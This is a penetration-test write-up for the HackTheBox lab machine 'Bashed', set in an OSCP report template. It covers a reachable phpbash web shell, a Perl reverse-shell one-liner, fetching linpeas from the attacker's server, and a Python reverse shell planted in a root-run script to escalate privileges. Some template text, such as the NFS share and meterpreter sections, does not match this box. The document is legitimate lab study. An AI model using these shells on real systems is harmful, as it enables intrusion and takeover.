










# Pentesting Report - Bashed

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.68

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

```
# Nmap 7.91 scan initiated Tue Jan  5 21:46:18 2021 as: nmap -Pn -sC -sV -p- -oA nmap/bashed-fulltcp 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.028s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  5 21:46:44 2021 -- 1 IP address (1 host up) scanned in 26.61 seconds

```
On browsing the main website we see the following website:



on the phpbash link we find the following interesting dynamic screenshot of a webshell:



```
url: https://github.com/Arrexel/phpbash
```
------------

# phpbash
phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

## Requirements
Javascript must be enabled on the client browser for phpbash to work properly. The target machine must also allow execution of the `shell_exec` PHP function, although it is very simple to modify the script to use an alternate function.

## Features
- Requires only a single PHP file
- POST-based requests
- Support for current working directory
- Command history with arrow keys
- Upload files directly to target directory

Have a feature idea? Open an [Issue](https://github.com/Arrexel/phpbash/issues).

## Custom Commands
- `cd` Return to default shell directory
- `cd <path>` Change directory
- `cd -` Return to previous directory
- `clear` Clears all output
- `upload` Opens the file browser and uploads selected file

## Usage
Simply drop the `phpbash.php` or `phpbash.min.php` file on the target and access it with any Javascript-enabled web browser.

## Screenshots


-------------

# Gobuster directory enumeration

With Gobuster we find the following web directories:

```
/index.html (Status: 200)
/images (Status: 301)
/contact.html (Status: 200)
/about.html (Status: 200)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
/single.html (Status: 200)
/scroll.html (Status: 200)
/server-status (Status: 403)
```
on the php web directory we find the following script:



on the dev web directory we find the following scripts:



Looks we have found a direct path to a webshell!

## Sample Report - Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, John was able to successfully gain access to the system.
Showmount reported a NFS share 'site_backups' readable to everyone.

```
cd upload
cat perl-reverse.pl 
perl -e 'use Socket;$i="10.10.14.27";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python3 -m http.server 8080
```

We upload a perl-reverse.pl shell to /dev/shm:



We change the permission to rwx to everyone (we need execute right):



On our host we open a nc listening connecting on port 9999:

```
nc -lnvp 9999

```

On the bashed host we enter this command in the php shell:
```
/dev/shm/perl-reverse.pl
```

On our host we receive a reverse shell back:



Then we upload a linpeas.sh script and give it execute rights:

```
ser@kali:~/hackthebox/hackthebox/bashed$ nc -lnvp 9999
Listening on 0.0.0.0 9999

Connection received on 10.10.10.68 51286
/bin/sh: 0: can't access tty; job control turned off
$ $ 
$ ls
perl-reverse.pl
$ wget http://10.10.14.27:8080/linpeas.sh
--2021-01-05 13:37:56--  http://10.10.14.27:8080/linpeas.sh
Connecting to 10.10.14.27:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 160486 (157K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 31%  974K 0s
    50K .......... .......... .......... .......... .......... 63% 2.33M 0s
   100K .......... .......... .......... .......... .......... 95% 2.18M 0s
   150K ......                                                100% 2.77M=0.1s

2021-01-05 13:37:57 (1.58 MB/s) - 'linpeas.sh' saved [160486/160486]

$ ls -l
total 164
-rw-r--r-- 1 www-data www-data 160486 Jan  5 12:39 linpeas.sh
-rwxrwxrwx 1 www-data www-data    222 Jan  5 13:11 perl-reverse.pl
$ chmod +x linpeas.sh
$ ./linpeas.sh | tee linpeas.out
```

We find that www-data (the account we are logged in with) has sudo permission to change to scriptmanager user:



In /home/arrexel we find the user flag:



We sudo to scriptmanager:

```
www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:~$ cd /scripts/
scriptmanager@bashed:/scripts$ ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan  5 14:28 test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

We find a test.txt file with root permissions indicating the test.py file is executed with privileged root. We can use this to create a privesc script by replacing/changing the script:
```
scriptmanager@bashed:/scripts$ cat test.py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.27",5555));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/bash")
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

On my box I opened a nc connection on port 5555 and waited for the reverse shell:




**Vulnerability Fix:**

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
